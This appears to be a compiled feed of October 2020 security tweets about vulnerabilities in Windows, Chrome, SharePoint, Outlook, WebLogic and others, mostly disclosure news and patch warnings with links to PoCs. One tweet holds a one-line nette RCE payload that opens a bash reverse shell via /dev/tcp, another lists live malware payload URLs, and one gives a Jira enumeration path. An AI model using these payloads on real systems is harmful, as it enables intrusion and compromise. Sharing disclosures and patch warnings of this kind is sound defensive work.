


# campuscodi
**https://twitter.com/campuscodi/status/1322244795155288064 _at Fri Oct 30 18:31:39 +0000 2020_**
<blockquote>
NEW: Google discloses Windows zero-day exploited in the wild

-Impacts Windows 7 up to the latest Windows 10
-Used together with a Chrome zero-day (patched last week)

Windows zero-day CVE: CVE-2020-17087
Chrome zero-day CVE: CVE-2020-15999 

https://t.co/hddB1UvqXc https://t.co/y3R9sPU7z7
</blockquote>

* https://www.zdnet.com/article/google-discloses-windows-zero-day-exploited-in-the-wild/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---

# AdmVonSchneider
**https://twitter.com/AdmVonSchneider/status/1322219820423798786 _at Fri Oct 30 16:52:25 +0000 2020_**
<blockquote>
RT @benhawkes: In addition to last week's Chrome/freetype 0day (CVE-2020-15999), Project Zero also detected and reported the Windows kernel…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>182</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1322206828202127360 _at Fri Oct 30 16:00:47 +0000 2020_**
<blockquote>
In addition to last week's Chrome/freetype 0day (CVE-2020-15999), Project Zero also detected and reported the Windows kernel bug (CVE-2020-17087) that was used for a sandbox escape. The technical details of CVE-2020-17087 are now available here: https://t.co/bO451188Mk
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=2104

<table><tr>
<td>Quotes: <code>28</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>181</code></td>
<td>Favorites: <code>364</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1321390624042442753 _at Wed Oct 28 09:57:29 +0000 2020_**
<blockquote>
Analysis of CVE-2020-14882
Weblogic RCE via HTTP CVSS 9.8/10
Hope you enjoy it ;)
Thanks an anonymous man for supporting!
https://t.co/Olhn9oye0r
</blockquote>

* https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>258</code></td>
<td>Favorites: <code>650</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1321159014252597249 _at Tue Oct 27 18:37:09 +0000 2020_**
<blockquote>
GitHub - rogue-kdc/CVE-2020-16939: PoC code for CVE-2020-16939 Windows Group Policy DACL Overwrite Privilege Escalation - https://t.co/JCs5qb6d7L
</blockquote>

* https://github.com/rogue-kdc/CVE-2020-16939

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# mmolgtm
**https://twitter.com/mmolgtm/status/1321135708858470402 _at Tue Oct 27 17:04:33 +0000 2020_**
<blockquote>
In this post I'll go through the exploit of CVE-2020-6449, a use-after-free in blink that I found in March, and break PartitionAlloc in the process: https://t.co/MG7HRkGZpk
</blockquote>

* https://securitylab.github.com/research/CVE-2020-6449-exploit-chrome-uaf

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>116</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1321123122226040832 _at Tue Oct 27 16:14:32 +0000 2020_**
<blockquote>
Using the Windows Group Policy client to escalate privileges. @rogue_kdc provides a guest blog and PoC showing how CVE-2020-16939 can be abused by attackers to obtain full permissions on the contents of a folder. https://t.co/0PyMPWkM8y
</blockquote>

* https://bit.ly/3jzOoka

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1320158900251865089 _at Sun Oct 25 00:23:03 +0000 2020_**
<blockquote>
Active DDoS malware payload detected:
http://172.245.7.141/b
http://172.245.7.141/c
http://172.245.7.141/w

Target:
Tenda AC1200 router RCE (CVE-2019-5071)
Tenda AC1900 router RCE (CVE-2020-10987)
WiFiDog RCE

Exploit attempt source IP: 172.245.7.141 (🇺🇸)
#threatintel https://t.co/NFQxJamSzE
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# ayatokura
**https://twitter.com/ayatokura/status/1319587705462747137 _at Fri Oct 23 10:33:20 +0000 2020_**
<blockquote>
⚠️VS Codeで、悪意のある「package.json」ファイルを開くと、リモートコード実行される脆弱性が報告されています。対処方法として最新版1.50.1に更新しておきましょう‼️
🌐CVE-2020-17023 Visual Studio JSON Remote Code Execution Vulnerability
https://t.co/QPYQzDqKm7
#VSCodejp #VSCode快適生活 https://t.co/70XRMOSxkj
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-17023

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>55</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1319143436159647744 _at Thu Oct 22 05:07:58 +0000 2020_**
<blockquote>
[Vulnerability warning] CVE-2020-14882 + CVE-2020-14883 = one Get request RCE!  Please update immediately! https://t.co/rej5WheNUY https://t.co/Jy1cAwfj0r
</blockquote>

* https://www.oracle.com/security-alerts/cpuoct2020.html

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>198</code></td>
</tr></table>

---

# KentonVarda
**https://twitter.com/KentonVarda/status/1319017350180503557 _at Wed Oct 21 20:46:57 +0000 2020_**
<blockquote>
🚨ICYMI: Chrome patched a zero-day today (CVE-2020-15999) that's being actively exploited in the wild. Update now.🚨

Note Firefox uses the same vulnerable library (freetype). I can't find any info on whether Firefox is vulnerable or if they've pushed any kind of fix...
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1318914772918767619 _at Wed Oct 21 13:59:20 +0000 2020_**
<blockquote>
Atlassian Jira unauthenticated user enumeration (CVE-2020-14181)! Versions affected:

Jira &lt; 7.13.6
8.0.0 ≤ Jira &lt; 8.5.7
8.6.0 ≤ Jira &lt; 8.12.0

Discovered by Mikhail Klyuchnikov.

Advisory: https://t.co/Pm5Vp1JvzV

/secure/ViewUserHover.jspa?username=test
The PoC ☝️ https://t.co/jfHgSzpFAB
</blockquote>

* https://jira.atlassian.com/browse/JRASERVER-71560

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>420</code></td>
</tr></table>

---

# certbund
**https://twitter.com/certbund/status/1318855168042074117 _at Wed Oct 21 10:02:29 +0000 2020_**
<blockquote>
Die am 13.10. von Microsoft bereitgestellten #Sicherheitsupdates zur Behebung der kritischen #RCE #Schwachstelle CVE-2020-16952 in #SharePoint 2013-2019 wurden bislang auf fast keinem System in Deutschland eingespielt.
PoC #Exploit-Code ist öffentlich verfügbar! #PATCHNOW! https://t.co/v6IeX7zLya
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# GoSecure_Inc
**https://twitter.com/GoSecure_Inc/status/1318653999600500746 _at Tue Oct 20 20:43:07 +0000 2020_**
<blockquote>
Our CVE-2020-1013 #LPE #PoC is out: WSuspicious
Available here: https://t.co/d3aZgLKi4v
Blog post reminder: https://t.co/wztiqQ7bj8
Research on #WSUS is still ongoing btw 🤫
</blockquote>

* https://github.com/GoSecure/WSuspicious/
* https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>96</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1318650517124427777 _at Tue Oct 20 20:29:17 +0000 2020_**
<blockquote>
BREAKING: Google releases Chrome security update to patch actively exploited zero-day

-Google Chrome 86.0.4240.111 released with a fix
-0day is CVE-2020-15999 (a heap buffer overflow in the FreeType font rendering library)

https://t.co/K73F1MV64T https://t.co/f1mCDUytbC
</blockquote>

* https://www.zdnet.com/article/google-releases-chrome-security-update-to-patch-actively-exploited-zero-day/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>120</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1318640422571266048 _at Tue Oct 20 19:49:10 +0000 2020_**
<blockquote>
Project Zero discovered and reported an actively exploited 0day in freetype that was being used to target Chrome. A stable release that fixes this issue (CVE-2020-15999) is available here: https://t.co/ZRQe72Qfkh
</blockquote>

* https://chromereleases.googleblog.com/2020/10/stable-channel-update-for-desktop_20.html

<table><tr>
<td>Quotes: <code>44</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>235</code></td>
<td>Favorites: <code>595</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1318581168313311232 _at Tue Oct 20 15:53:43 +0000 2020_**
<blockquote>
RT @Adam_pi3: CVE-2020-16898 – Exploiting "Bad Neighbor" vulnerability. My very detailed write-up with all the caveats + PoC code
https://t…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>363</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hkashfi
**https://twitter.com/hkashfi/status/1318566290647322624 _at Tue Oct 20 14:54:36 +0000 2020_**
<blockquote>
CVE-2020-13957 is a pretty handy bug. Easy RCE on Solr  6/7/8x versions, pre-auth often. If the Solr version is old enough, you can even chain it with CVE-2017-3164 to exploit non-exposed instances too! 

Never expose your Solr API/Admin interface, even internally. It's BAD idea!
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1317356809787592705 _at Sat Oct 17 06:48:33 +0000 2020_**
<blockquote>
Hacker publishes a detailed explanation of the exploitation of Windows TCP/IP remote code execution (CVE-2020-16898) vulnerability.

https://t.co/P3HuTggpYY
</blockquote>

* http://blog.pi3.com.pl/?p=780

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>292</code></td>
<td>Favorites: <code>563</code></td>
</tr></table>

---

# Adam_pi3
**https://twitter.com/Adam_pi3/status/1317178701457575936 _at Fri Oct 16 19:00:49 +0000 2020_**
<blockquote>
CVE-2020-16898 – Exploiting "Bad Neighbor" vulnerability. My very detailed write-up with all the caveats + PoC code
https://t.co/MhKxEvLig4
</blockquote>

* http://blog.pi3.com.pl/?p=780

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>363</code></td>
<td>Favorites: <code>733</code></td>
</tr></table>

---

# quarkslab
**https://twitter.com/quarkslab/status/1317034233236520960 _at Fri Oct 16 09:26:45 +0000 2020_**
<blockquote>
[BLOG] Beware the Bad Neighbor: Analysis and PoC of the Windows IPv6 Router Advertisement Vulnerability (CVE-2020-16898) https://t.co/YQqarGG6Hy by @fdfalcon
</blockquote>

* https://blog.quarkslab.com/beware-the-bad-neighbor-analysis-and-poc-of-the-windows-ipv6-router-advertisement-vulnerability-cve-2020-16898.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>200</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1317017834791329792 _at Fri Oct 16 08:21:35 +0000 2020_**
<blockquote>
CVE-2020-16947: PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility)

https://t.co/0ck5mrbwaO https://t.co/AOvsBKdGVF
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>220</code></td>
</tr></table>

---

# certbund
**https://twitter.com/certbund/status/1316974664120492033 _at Fri Oct 16 05:30:02 +0000 2020_**
<blockquote>
Am 13.10. hat Microsoft Sicherheitsupdates für kritische #RCE #Schwachstellen (CVE-2020-16951, -16952) in #SharePoint 2013-2019 veröffentlicht.
#PoC #Exploit Code ist bereits öffentlich verfügbar.
Aktuell sind mindestens 600 SharePoint-Server in Deutschland verwundbar. #PATCHNOW! https://t.co/9tTuXR0SoY
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1316905632587501569 _at Fri Oct 16 00:55:44 +0000 2020_**
<blockquote>
GitHub - 0neb1n/CVE-2020-16947: PoC of CVE-2020-16947 (Microsoft Outlook RCE vulnerablility) - https://t.co/lxlEQcBBTn
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# 0neb1n
**https://twitter.com/0neb1n/status/1316755683065307136 _at Thu Oct 15 14:59:53 +0000 2020_**
<blockquote>
https://t.co/KnBoYPhfcY
writeup and poc of cve-2020-16947 (outlook rce vuln)
</blockquote>

* https://github.com/0neb1n/CVE-2020-16947

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>161</code></td>
<td>Favorites: <code>380</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1316688725800374279 _at Thu Oct 15 10:33:49 +0000 2020_**
<blockquote>
PoC published for CVE-2020-16952, a post-auth Microsoft SharePoint RCE

https://t.co/3P4UaMqt36 https://t.co/v6LUl0I5rx
</blockquote>

* https://srcincite.io/advisories/src-2020-0022/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# ddouhine
**https://twitter.com/ddouhine/status/1316661921974833152 _at Thu Oct 15 08:47:19 +0000 2020_**
<blockquote>
SharePoint admins: PATCH !
Upcoming Microsoft SharePoint Server-Side Include and ViewState RCE (CVE-2020-16952) exploit in #metasploit

@msftsecurity you can update your advisory

Vulnerability found by @steventseeley and module by @wvuuuuuuuuuuuuu 

https://t.co/MOsRPDSHu6 https://t.co/EOKPqeUfBT
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/14265

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# RedDrip7
**https://twitter.com/RedDrip7/status/1316592876881502208 _at Thu Oct 15 04:12:57 +0000 2020_**
<blockquote>
The #CVE-2020-16922 is a #spoofing #vulnerability we submitted to #Microsoft. When a malicious #JAR or #HTA appended to a #CAT file properly #signed by #Microsoft, the security features to prevent improperly signed files from loading gets bypassed.

https://t.co/HSSKidjjjX https://t.co/IxH8YH3ayS
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16922

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# benreardon
**https://twitter.com/benreardon/status/1316528019062710272 _at Wed Oct 14 23:55:14 +0000 2020_**
<blockquote>
Just released a simple Zeek package that nicely detects CVE-2020-16898 AKA "Bad Neighbor” (Windows TCP/IP Remote Code Execution vuln) https://t.co/QZiuvhPH5k @corelight_inc @ynadji
</blockquote>

* https://github.com/corelight/CVE-2020-16898

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1316497085320097792 _at Wed Oct 14 21:52:19 +0000 2020_**
<blockquote>
Looking at patch diff of tcpip.sys, it seems "Ipv6pHandleRouterAdvertisement()" function which is called by "Icmpv6ReceiveDatagrams()" function is guilty for Microsoft Windows ICMPv6 router advertisement RCE vulnerability (CVE-2020-16898): https://t.co/9HLISvpHil
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>314</code></td>
</tr></table>

---

# thracky
**https://twitter.com/thracky/status/1316461143754510337 _at Wed Oct 14 19:29:29 +0000 2020_**
<blockquote>
Figured out CVE-2020-16898 finally. Definitely a biiiiig caveat to exploitation that nobody is talking about (and I won't mention it at the moment, sorry) https://t.co/7zwdrL1vml
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1316443774743121920 _at Wed Oct 14 18:20:28 +0000 2020_**
<blockquote>
Microsoft is on fire lately 🔥 

CVE-2020-16947 | Microsoft Outlook Remote Code Execution Vulnerability

https://t.co/4I5ZnrNToP
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16947

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1316416189527068672 _at Wed Oct 14 16:30:52 +0000 2020_**
<blockquote>
CVE-2020-15227 PHP framework nette callback RCE

POC: /nette.micro?callback=shell_exec&amp;cmd=bash%20-i%20&gt;&amp;%20/dev/tcp/'+lhost+'/'+lport+'0&gt;&amp;1

https://t.co/M4oEFOYZva https://t.co/TH5Iu9lFDP
</blockquote>

* https://t.zsxq.com/zn2BQZr

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>131</code></td>
<td>Favorites: <code>275</code></td>
</tr></table>

---

# theori_io
**https://twitter.com/theori_io/status/1316390869537153025 _at Wed Oct 14 14:50:15 +0000 2020_**
<blockquote>
Researchers at Theori have successfully confirmed the CVE-2020-16898 vulnerability, dubbed as Bad Neighbor, by demonstrating a remote crash of Windows with BSOD. Be aware of those packets! We are working to craft an RCE exploit, though it looks tough ;)

https://t.co/AfRYs0g4iD
</blockquote>

* https://www.youtube.com/watch?v=TjTAYarKDJQ

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# Kevin2600
**https://twitter.com/Kevin2600/status/1316380576593571840 _at Wed Oct 14 14:09:21 +0000 2020_**
<blockquote>
There was CVE-2020-16142 for Benz and CVE-2017-9212 for BMW. Now I present you, Audi. Because why not 😂 https://t.co/JnkGeTgw9x https://t.co/aQQx6hhh1h
</blockquote>

* https://tiger-team-1337.blogspot.com/2020/10/audi-a7-2014-mmi-mishandles-format.html

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>254</code></td>
<td>Favorites: <code>678</code></td>
</tr></table>

---

# H_Miser
**https://twitter.com/H_Miser/status/1316288911040274437 _at Wed Oct 14 08:05:06 +0000 2020_**
<blockquote>
Threat level: very préoccupé

CVE-2020-16947 - Microsoft Outlook RCE Vulnerability” allows attackers to send specially crafted emails that can execute commands when opened in the Microsoft Outlook software. This attack also works when an email is viewed in the preview pane. https://t.co/P9ldLFkosM
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>200</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1316217774125924352 _at Wed Oct 14 03:22:26 +0000 2020_**
<blockquote>
CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability
Vulnerability Details:
https://t.co/iAX5FiFajJ
Update:
https://t.co/TKrrUk4iQB https://t.co/j33DMv59eV
</blockquote>

* https://www.mcafee.com/blogs/other-blogs/mcafee-labs/cve-2020-16898-bad-neighbor/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

# h0mbre_
**https://twitter.com/h0mbre_/status/1316171459446726656 _at Wed Oct 14 00:18:23 +0000 2020_**
<blockquote>
CVE-2020-12928, Privilege Escalation in AMD Ryzen Master Overclocking Utility Driver AMDRyzenMaster.sys exploit proof-of-concept. Thanks to everyone mentioned for the help! https://t.co/rmIXieOOvC
</blockquote>

* https://h0mbre.github.io/RyzenMaster_CVE/

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>251</code></td>
<td>Favorites: <code>633</code></td>
</tr></table>

---

# US_CYBERCOM
**https://twitter.com/US_CYBERCOM/status/1316150332498608128 _at Tue Oct 13 22:54:26 +0000 2020_**
<blockquote>
Update your Microsoft software now so your system isn't exploited: CVE-2020-16898 in particular should be patched or mitigated immediately, as vulnerable systems could be compromised remotely.
</blockquote>

<table><tr>
<td>Quotes: <code>26</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>277</code></td>
<td>Favorites: <code>362</code></td>
</tr></table>

---

# ollieatnccgroup
**https://twitter.com/ollieatnccgroup/status/1316109559526838275 _at Tue Oct 13 20:12:25 +0000 2020_**
<blockquote>
CVE-2020-16898 (Windows TCP/IP RCE) is beaten by CVE-2020-16952 (SharePoint post auth file inclusion leading to RCE). CVE-2020-16952 has an exploit out and when combined with password spraying/phishing for creds s a threat right now - https://t.co/IZbbn8aB4o
</blockquote>

* https://www.reddit.com/r/blueteamsec/comments/jal83d/cve202016952_microsoft_sharepoint_server/

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>149</code></td>
<td>Favorites: <code>319</code></td>
</tr></table>

---

# jonasLyk
**https://twitter.com/jonasLyk/status/1316104870987010048 _at Tue Oct 13 19:53:47 +0000 2020_**
<blockquote>
CVE-2020-16938 - aka bits please!
So...recent update changed the permissions on partitions and volume device objects, granting everybody read access.
This means that by opening the device directly you can read the raw data without any privs.
7zip parses NTFS so super for POC https://t.co/JXBTmcEIxQ
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>39</code></td>
<td>Replies: <code>20</code></td>
<td>Retweets: <code>494</code></td>
<td>Favorites: <code>1114</code></td>
</tr></table>

---

# circl_lu
**https://twitter.com/circl_lu/status/1316096472375603202 _at Tue Oct 13 19:20:25 +0000 2020_**
<blockquote>
"CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability"

"A remote code execution vulnerability exists when the Windows TCP/IP stack improperly handles ICMPv6 Router Advertisement packets. "

https://t.co/bC1M9eOu2o
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1316084624553017345 _at Tue Oct 13 18:33:20 +0000 2020_**
<blockquote>
Microsoft SharePoint Server DataFormWebPart CreateChildControls Server-Side Include Remote Code Execution Vulnerability

CVE: CVE-2020-16952
Advisory: https://t.co/ArJrenuRR5
Technical analysis + PoC exploit: https://t.co/sKCiTY1Ver
</blockquote>

* https://srcincite.io/advisories/src-2020-0022/
* https://srcincite.io/pocs/cve-2020-16952.py.txt

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>223</code></td>
<td>Favorites: <code>402</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1316082539858190341 _at Tue Oct 13 18:25:03 +0000 2020_**
<blockquote>
CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability 😱

https://t.co/0r0s1oqTDg
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>225</code></td>
<td>Favorites: <code>433</code></td>
</tr></table>

---

# blueteamblog
**https://twitter.com/blueteamblog/status/1316077767805599744 _at Tue Oct 13 18:06:06 +0000 2020_**
<blockquote>
Highlight from Patch Tuesday is CVE-2020-16898 / Bad Neighbor

A RCE vulnerability exists when the Windows TCP/IP stack improperly handles ICMPv6 Router Advertisement packets that use Option Type 25 (Recursive DNS Server Option) and a length field value that is even.
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1316068580585340931 _at Tue Oct 13 17:29:35 +0000 2020_**
<blockquote>
The Microsoft October Patch Tuesday security updates are out

-This month we have fixes for 87 vulnerabilities
-21 are RCEs
-CVE-2020-16898 is probably the worst, an RCE in the Windows TCP/IP stack with a 9.8/10 CVSS score

https://t.co/EQUMZedSLF https://t.co/geocZqAhDE
</blockquote>

* https://www.zdnet.com/article/microsoft-october-2020-patch-tuesday-fixes-87-vulnerabilities/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
